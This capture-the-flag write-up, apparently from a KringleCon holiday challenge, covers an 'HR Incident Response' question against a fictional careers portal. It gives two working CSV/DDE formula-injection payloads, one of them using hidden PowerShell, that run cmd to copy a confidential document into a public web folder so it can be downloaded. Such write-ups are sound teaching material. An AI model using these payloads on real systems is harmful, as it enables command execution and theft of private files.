


Question 7: HR Incident Response¶
C:\candidate_evaluation.docx. Which terrorist organization is secretly supported by the job applicant whose name begins with “K”? For hints on achieving this objective, please visit Sparkle Redberry and help her with the Dev Ops Fail Cranberry Pi terminal challenge.Answer: Fancy Beaver
Solution¶
We initially created a simple CSV file called kringle.csv conatining the string test. After submitting the application we received the following message:
We then tried browsing to https://careers.kringlecastle.com/candidate_evaluation.docx and received the following 404 error.
Using the hints associated with this question, our aim was to submit a CSV file that contained a CSV injection that copied the candidate_evaluation.docx file from C:\ to C:\careerportal\resources\public\.
We modified our kringle.csv file so that it contained the following:
=cmd|'/c copy C:\candidate_evaluation.docx C:\careerportal\resources\public\c1.docx'!A1
After submiting the application with this file, we used https://careers.kringlecastle.com/public/c1.docx to retrieve the file.
The downloaded document contained the following information attached to Krampus’s rejection:
Alternative injection string¶
Here is an alternate CSV injection string that uses PowerShell to copy the file:
=cmd|'/c powershell.exe -w hidden $e=(copy C:\candidate_evaluation.docx C:\careerportal\resources\public\c2.docx);powershell -e $e'!A1
In this case, https://careers.kringlecastle.com/public/c2.docx is needed to download the document.